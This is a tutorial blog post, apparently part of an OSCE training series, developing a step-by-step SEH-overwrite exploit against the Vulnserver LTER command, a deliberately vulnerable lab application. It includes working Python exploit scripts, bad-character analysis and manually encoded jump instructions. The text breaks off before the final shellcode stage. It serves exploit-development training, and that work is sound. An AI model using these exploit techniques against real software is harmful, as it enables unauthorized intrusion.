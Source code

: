 :slug: vulnserver-lter-seh/
:date: 2020-06-23
:category: attacks
:subtitle: Bad chars everywhere
:tags: osce, vulnserver, training, exploit
:image: cover.png
:alt: Photo by Kevin Ku on Unsplash
:description: This post will show how to exploit the Vulnserver LTER command on where we will need to bypass bad chars restrictions.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/w7ZyuGYNpRQ

= LTER: Overcoming Bad Chars

This is the sixth article on the series of exploiting `Vulnserver`,
a VbD (Vulnerable-by-Design) application in which you can practice Windows
exploit development.

In previous posts, we have been able to exploit Vulnserver commands:

. `TRUN` was link:../vulnserver-trun/[exploited] using a direct EIP overwrite,
with virtually no space or characters restrictions to work on.
. `GMON` used a
link:../vulnserver-gmon/[Structured Exception Handling (SEH)] overwrite to
take control of the execution flow.
. `GTER` showed up with space restrictions and we were able to exploit it
using link:../vulnserver-gter/[egghunters] and
link:../vulnserver-gter-no-egghunter/[WinSocket stack reuse].
. `KSTET` had a very narrow buffer for us to work on, but we were able to
use a link:../vulnserver-kstet/[multistage exploit] to get our shell.

So far, we've been faced with mostly buffer space issues, but with little
to none restrictions on what kind of instructions we were allowed to use.

But in fact, instruction restrictions are the rule. Think about exploiting a
`Host` HTTP header: A host name normally is only alphanumeric and few
other chars are allowed. If we are going to inject code on that header, we
would be surely limited to use instructions whose opcodes are in the allowed
list.

In this post, we will exploit the Vulnserver `LTER` command.

We'll have to use techniques we've learn on our previous posts, and include
some others in order for us to successfully exploit that command.

== Fingerprinting LTER

The enumeration part is the most important step. This will lead us
to the right path of exploiting our target.

We can create a new connection and see how `LTER` command works:

[source,console]
----
$ telnet 192.168.0.20 9999
Trying 192.168.0.20...
Connected to 192.168.0.20.
Escape character is '^]'.
Welcome to Vulnerable Server! Enter HELP for help.
LTER me
LTER COMPLETE
LTER *
LTER COMPLETE
LTER 9
LTER COMPLETE
LTER !@#$$%&*()
LTER COMPLETE
----

Now try with something bulkier:

image::crash1.gif[Crash]

Hmm, something's not right. We can create an initial exploit to test faster.

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * 4000
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
    fd.recv(128)
----

Now use a debugger to see what's going on:

image::crash2.gif[Crash 2]

Well, it seems we're facing a SEH overwrite. Please, check
link:../vulnserver-gmon/[this post] for an explanation of SEH.

OK, we need to figure out the offset by:

. Creating a cyclic pattern.
. Checking the offset of the pattern found in the SEH handler.

Let's do that:

[source,console]
----
$ msf-pattern_create -l 4000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac...
----

Update our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'<inset pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:

image::pattern1.gif[Pattern]

The SEH handler was overwritten with `356F4534`. We can check the offset
using `pattern_offset.rb`:

[source,console]
----
$ msf-pattern_offset -q 356F4534
[*] Exact match at offset 3554
----

That means that the SEH handler was overwritten starting at byte `3554`.
Let's update our exploit to reflect that offset:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * 3554 +
    b'B' * 4 +
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::pattern2.gif[Pattern OK]

Great. If we trigger the exception handler, we will overwrite `EIP`.

image::eip1.png[Pattern OK]

The stack window (bottom right) shows that our buffer is 8 bytes below the
stack pointer `ESP`, so we need to find a `POP/POP/RET` sequence on the
executable modules of Vulnserver that makes us land directly over the `nSEH`
field which we now control. `mona` can help us:

image::poppopret1.png[POP POP RET]

We instructed `mona` to find `POP/POP/RET` gadgets (`seh`) and exclude
pointers with null bytes (`-cp nonull`), those with `SafeSEH` enabled
(`-cp safeseh=off`) and not belonging to the OS (`-o`). That gave us
12 pointers.

Let's use the first in the list `625010B4` to replace our `B` buffer:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * 3554 +
    # 625010B4    5B                          POP EBX
    # 625010B5    5D                          POP EBP
    # 625010B6    C3                          RETN
    struct.pack('<L', 0x625010B4) +
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

With that, we'd be able to run that sequence that will direct the
execution flow to our controlled buffer. Let's check it:

image::badchar1.gif[Badchar return address]

Hummm something's not quite right. We injected `625010B4` but
for some reason the application turned the last byte of the address, `B4`
to `35` and got `62501035` instead. We didn't expect that.

We need to check what other variations would be applied to our buffer in order
to get the available bytes we can work with.

== Hunting for bad chars

Let's look at this image

image::ansi1.png[ANSI]

We can see here that our application works with `ANSI` encoded strings.
`ANSI` chars are 1 byte long, which means that
all the available `ANSI` chars are in the range from `0x00` to `0xff`.

With that in mind, we need to know which of those 256 possible `ANSI` chars
will be mangled by the application when we are injecting code.

To do that, `mona` can help us again:

[source,console]
----
!mona bytearray
----

This will create an array with all the 256 available `ANSI` chars:

image::bytearray1.png[ANSI]

I've mention in other posts that it's a good idea to exclude null chars
(`0x00`), carriage return (`0x0d`) and line feed (`0x0a`) from our shellcode.
We can filter them in advance with:

[source,console]
----
!mona bytearray -cpb '\x00\x0a\x0d'
----

Or with Python3:

[source,python]
----
EXCLUDE = ('0x0', '0xa', '0xd')
BADCHARS = bytes(bytearray([x for x in range(256) if hex(x) not in EXCLUDE]))
----

image::bytearray2.png[ANSI 2]

Now we can inject that array into our exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

EXCLUDE = ('0x0', '0xa', '0xd')

BADCHARS = bytes(bytearray([x for x in range(256) if hex(x) not in EXCLUDE]))

PAYLOAD = (
    b'LTER .' +
    BADCHARS +
    b'A' * (3554 - len(BADCHARS)) +
    b'B' * 4 +
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Now, run this updated exploit to check how are all the chars treated by the
`LTER` command:

image::check-badchars1.gif[Checking bad chars]

We can see several things here:

. Our payload of bad chars was successfully injected after the `LTER .` string.
. It seems that all the chars, from `0x01` to `0x7f` were successfully
injected.
. When the bytearray reached the char `0x80`, it was converted to `0x01`, then
`0x81` to `0x02` and so on.

There is a more graphical way to check that, using `mona` once again:

[source,console]
----
!mona cmp -f C:\mona\vulnserver\bytearray.bin -a <badchars memory address>
----

This will tell `mona` to compare the contents of the previously created
file `C:\mona\vulnserver\bytearray.bin` with the contents of the memory on
where our bad chars array started. In the previous example, the
bad chars was started to be injected on `00F0F1EE`:

image::badchars-start.png[Bad chars start]

So the `mona` command would be:

[source,console]
----
!mona cmp -f C:\mona\vulnserver\bytearray.bin -a 00F0F1EE
----

And the output would be:

image::mona-cmp1.gif[Mona cmp]

Here is the resulting comparison table:

[source,text]
----
[+] Comparing with memory at location : 0x00f0f1ee (Stack)
Only 125 original bytes of 'normal' code found.
    ,-----------------------------------------------.
    | Comparison results:                           |
    |-----------------------------------------------|
  0 |01 02 03 04 05 06 07 08 09 0b 0c 0e 0f 10 11 12| File
    |                                               | Memory
 10 |13 14 15 16 17 18 19 1a 1b 1c 1d 1e 1f 20 21 22| File
    |                                               | Memory
 20 |23 24 25 26 27 28 29 2a 2b 2c 2d 2e 2f 30 31 32| File
    |                                               | Memory
 30 |33 34 35 36 37 38 39 3a 3b 3c 3d 3e 3f 40 41 42| File
    |                                               | Memory
 40 |43 44 45 46 47 48 49 4a 4b 4c 4d 4e 4f 50 51 52| File
    |                                               | Memory
 50 |53 54 55 56 57 58 59 5a 5b 5c 5d 5e 5f 60 61 62| File
    |                                               | Memory
 60 |63 64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72| File
    |                                               | Memory
 70 |73 74 75 76 77 78 79 7a 7b 7c 7d 7e 7f 80 81 82| File
    |                                       01 02 03| Memory
 80 |83 84 85 86 87 88 89 8a 8b 8c 8d 8e 8f 90 91 92| File
    |04 05 06 07 08 09 0a 0b 0c 0d 0e 0f 10 11 12 13| Memory
 90 |93 94 95 96 97 98 99 9a 9b 9c 9d 9e 9f a0 a1 a2| File
    |14 15 16 17 18 19 1a 1b 1c 1d 1e 1f 20 21 22 23| Memory
 a0 |a3 a4 a5 a6 a7 a8 a9 aa ab ac ad ae af b0 b1 b2| File
    |24 25 26 27 28 29 2a 2b 2c 2d 2e 2f 30 31 32 33| Memory
 b0 |b3 b4 b5 b6 b7 b8 b9 ba bb bc bd be bf c0 c1 c2| File
    |34 35 36 37 38 39 3a 3b 3c 3d 3e 3f 40 41 42 43| Memory
 c0 |c3 c4 c5 c6 c7 c8 c9 ca cb cc cd ce cf d0 d1 d2| File
    |44 45 46 47 48 49 4a 4b 4c 4d 4e 4f 50 51 52 53| Memory
 d0 |d3 d4 d5 d6 d7 d8 d9 da db dc dd de df e0 e1 e2| File
    |54 55 56 57 58 59 5a 5b 5c 5d 5e 5f 60 61 62 63| Memory
 e0 |e3 e4 e5 e6 e7 e8 e9 ea eb ec ed ee ef f0 f1 f2| File
    |64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72 73| Memory
 f0 |f3 f4 f5 f6 f7 f8 f9 fa fb fc fd fe ff         | File
    |74 75 76 77 78 79 7a 7b 7c 7d 7e 7f 80         | Memory
    `-----------------------------------------------'

                | File      | Memory    | Note
.-----------------------------------------------------
0   0   125 125 | 01 ... 7f | 01 ... 7f | unmodified!
.-----------------------------------------------------
125 125 128 128 | 80 ... ff | 01 ... 80 | corrupted

Possibly bad chars: 80
Bytes omitted from input: 00 0a 0d
----

That's a lot of very valuable information for us. Now it's clear why
our previously injected address `625010B4` was translated to `62501035`.

== Allowed charset

In the previous section we were able to narrow the character set that
was allowed for us to inject code. The characters range from hex
`0x1` to `0x7f`, excluding `0xa` and `0xd`. That range belongs to what's
known as the ASCII character set. In Linux, you can see the ASCII
table using the command `man 7 ascii`. However, a simple search on Google
will give thounsands of results.

This means that for now on, we are limited to work with that set of
characters.

The first thing we need to do is to search another `POP/POP/RET` gadget on
a pointer that contains only bytes allowed on our character set. To do that,
we can issue another command filtering the `POP/POP/RET`
gadgets containing only ASCII bytes and excluding `0xa` and `0xd`:

[source,console]
----
!mona seh -cm safeseh=off -cp nonull,ascii -o -cpb '\x0a\x0d'
----

Fortunately for us, there's 3 pointers that fulfill all our requirements:

image::ascii-poppopret1.png[ASCII POP/POP/RET]

Let's choose the first result at `6250172B` and update our exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * 3554 +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check if, this time, we are able to reach of `POP/POP/RET` sequence:

image::retsuccess1.gif[Return success]

Yes! Things start to getting better... or not?

== Finding useful instructions

After the `POP/POP/RET` on `6250172B` sequence is executed, we landed
at the link:../vulnserver-gmon/[nSEH parameter]  and we need to get past over
the injected SEH handler address. What we did before with the
`GMON` command was to perform a short jump. That jump had the
bytecode `\xeb\x08`. However, this time we are limited by
instructions on the `\x00 - \x7f` range so the short jump opcode (`\xeb`) is
not an option. We need to find an instruction that can perform a short jump
an has an opcode in our allowed character set. That instruction must also fit
in 4 bytes or less.

Luckly for us,
link:http://unixwiz.net/techtips/x86-jumps.html[conditional jumps] are
the answer:

. They are 2 byte long.
. Most of them have opcodes on our allowed range.

However, we need to choose the appropiate condition that actually performs the
jump. For example, if we'd to choose the `JNZ` conditional, we must make sure
that the condition is always true in order to perform the desired jump.

Or, we can use some discrete mathematics here and take advantage of
predicated logic and use two opposite 2-bytes conditional jumps. The logic
is simple:

. Having `Bool(ZF) = unknown`
. As we don't know the current value of `ZF`, predicated logic says that
`Bool(ZF) || ~Bool(ZF) == true`

So, instead of injecting a simple `JNZ SHORT +0x8`, we will inject two
conditional jumps:

[source,x86asm]
----
\x75\x08      ; JNZ SHORT +0x10: Will jump if ZF is 1
\x74\x06      ; JZ SHORT +0x8: If the previous jump didn't happen (ZF is 0), jump!
----

This will ensure that, no matter the value of `ZF` on the processor, any of
those instructions will be true and the jump will be performed. Let's update
our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4) +
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x8: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Now check if that worked:

image::jmp-success1.gif[Jump success]

It did! The first condition was not met, the second was, and the
jump succeded.

Now, after successfully jumping over the SEH handler, we landed on a 41 byte
section where we injected our `C` buffer. What would normally
happen is to perform a long jump backwards to the start of our `A` buffer to
make some more room to inject something larger like a shellcode.

While that is certainly true, we can't perform a normal long jump because
it will contain unallowed bytes (`\xff` for example).

== Checking existant encoders

To overcome that, we will need to start encoding everything we inject, using
our allowed characters, in a way that it will decode in memory and execute
the needed action.

Let's encode our first needed instruction: The backwards long jump.

First, we need to get the desired opcode:

image::longjump1.png[Long jump]

As we can see, we'd need to inject an encoded version of `E9 13 F2 FF FF`

First, we're going to try existing encoders. We will try those
available on `msfvenom` that generate an alphanumeric shellcode:

image::failed-encoders1.gif[Failed encoders]

Having a restricted 41 byte buffer, the common alphanumeric encoders are
not viable:

. `x86/alpha_mixed` produced a 71 byte shellcode.
. `x86/add_sub` failed.
. `x86/opt_sub` produced a 61 byte shellcode.

Maybe the long jump instruction is too large. Let's try with the farest
backward short jump possible `JMP SHORT +0x80 = \xeb\x80`:

[source,console]
----
$ python -c "buff= b'\xeb\x80'; fd = open('jmp.bin', 'wb'); fd.write(buff)"
$ cat jmp.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub -o /dev/null
Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/opt_sub
x86/opt_sub succeeded with size 45 (iteration=0)
x86/opt_sub chosen with final size 45
Payload size: 45 bytes
Saved as: /dev/null
$ cat jmp.bin | msfvenom -p - -a x86 --platform windows -e x86/alpha_mixed -o /dev/null
Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 66 (iteration=0)
x86/alpha_mixed chosen with final size 66
Payload size: 66 bytes
Saved as: /dev/null
----

Better, however it won't fit either. That means that we have to encode that
short jump manually.

== Manual encoding

Having our restricted allowed characters set, the technique we will use is
something known as ADD/SUB/AND encoding. The technique is fully described
link:https://vellosec.net/2018/08/carving-shellcode-using-restrictive-character-sets/[here].

Basically, what we'll need to do is the following:

. Point `ESP` to a place that will be in the execution flow path.
. Manipulate `EAX` using `ADD`, `SUB` or `AND` instructions to make it hold
our desired `\xeb\x80` value.

=== Align ESP

To accomplish the first point, we need to do the following:

. Get the current value of `ESP`.
. Get the offset between the current `ESP` location and the place where we
want it to be. Remember that it must be later on our execution path.
. `ADD` that offset to `ESP`, so it effectively points to the new location.

Let's do that:

image::align-esp1.gif[Align ESP]

Note that all the resulting bytes are in our allowed charset. Now update our
exploit with that instructions:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4) +
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x05\x53\x14' +   # ADD AX,0x1453
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it. If it works, `ESP` must point to the very end of our `C` buffer:

image::align-esp2.gif[Align ESP]

Great! It means that any `PUSH` instruction will put things in that place. And
that's exactly what we wanted to do.

=== Carve short jump

With that in place, we need to make `EAX` holds our short backwards jump bytes,
`\xeb\x80`. But we need to do it the right way:

. Remember that `EAX` is a 32 bit register, so we must pad it with
two NOPs. The resultant expected value should be `\xeb\x80\x90\x90`.
. As we are pushing that on the stack, and having in mind that the x86
architecture is little endian, we must reverse that value and make EAX equals
to `\x90\x90\x80\xeb` and then, when the `PUSH EAX` occurs, the injected value
would be `\xeb\x80\x90\x90`.

First, we need to zero out `EAX`. This can be done using a couple of `AND`
instructions:

[source,x86asm]
----
AND EAX,504A5050
AND EAX,2A302A2A
----

This will work because:

[source,txt]
----
504A5050 = 1010000010010100101000001010000
                                       AND
2A302A2A = 0101010001100000010101000101010
__________________________________________
           0000000000000000000000000000000
----

Then, we need to find some values that, when added, result on `909080eb`.
If we divide `909080eb` by two, we will get `48484075.8`. So we can add
`48484075` to `EAX` and then add `48484076` to make it `909080eb`.

Let's see if that works:

image::carve-eax1.gif[Carve EAX]

Great!

We can now execute `PUSH EAX` and our desired `\xeb\x80` should emerge
like magic:

image::push-eax1.gif[Carve EAX]

Isn't it wonderful? It looks black magic!

Let's update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4) +
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

== More jumping around

Great, but we landed on a 78 byte buffer. We need to jump to the start of
our `A` buffer. However, as we saw before, 78 bytes is more than enough for
encoding and executing a long backwards jump. We will use the same strategy
as before.

First, we need to know the exact instruction of the desired backwards long
jump:

image::long-jump2.png[Second long jump]

The resulting bytes are `E9 2D F2 FF FF`. We must perform a long jump not to
the very start of our buffer, but somewhere in the first bytes.
This is because we don't know at this point the memory address on where
the `JMP` instruction will be generated and thus, the offset will likely
change.

With the needed bytes, we need to align the `ESP` pointer again. As we saw,
it's a good idea to point it to the higher memory of the block in order
to avoid overwriting our encoded payload. This leads to:

[source,x86asm]
----
push esp            ; Push the current value of ESP on the stack
pop eax             ; Pop it to EAX register
sub al,0x30         ; Substract 30 bytes from EAX
push eax            ; Push the resultant value of EAX to the stack
pop esp             ; Pop it back the ESP
----

Let's update our exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4 - 79) +
    # Align stack for our long jump
    b'\x54' +           # PUSH ESP
    b'\x58' +           # POP EAX
    b'\x2c\x30' +       # SUB AL,30
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    b'A' * (79 - 6) +   # Fill the rest of our buffer with A
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::align-esp3.gif[Align ESP]

Great! We can now encode our backwards long jump. This time I will use
a tool called
link:https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder[Automatic ASCII Shellcode Subtraction Encoder].
It was created by Elias Augusto and I added some convenient improvements.

Let's get our encoded jump:

[source,console]
----
$ python3 encoder.py -m -p -s 'E92DF2FFFF' -v LONG_JUMP
...
Shellcode length: 52
Shellcode Output:

LONG_JUMP  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x62\x21\x22\x23\x2d'
LONG_JUMP += b'\x38\x25\x2b\x28\x2d\x67\x28\x22\x24\x50\x25\x50\x50\x4a\x50\x25'
LONG_JUMP += b'\x2a\x2a\x30\x2a\x2d\x42\x7f\x29\x73\x2d\x7f\x25\x69\x2d\x2d\x56'
LONG_JUMP += b'\x2d\x7b\x5f\x50'
----

Great, let's add that `LONG_JUMP` variable to our exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

LONG_JUMP  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x62\x21\x22\x23\x2d'
LONG_JUMP += b'\x38\x25\x2b\x28\x2d\x67\x28\x22\x24\x50\x25\x50\x50\x4a\x50\x25'
LONG_JUMP += b'\x2a\x2a\x30\x2a\x2d\x42\x7f\x29\x73\x2d\x7f\x25\x69\x2d\x2d\x56'
LONG_JUMP += b'\x2d\x7b\x5f\x50'

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4 - 79) +
    # Align stack for our long jump
    b'\x54' +           # PUSH ESP
    b'\x58' +           # POP EAX
    b'\x2c\x30' +       # SUB AL,30
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    LONG_JUMP +
    b'A' * (79 - 6 - len(LONG_JUMP)) +   # Fill the rest of our buffer with A
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::long-jump-success1.gif[Long jump success]

Fantastic! Now we have enough room for encoding something really useful.

We will use the stager shellcode used to exploit the `KSTET` command, with
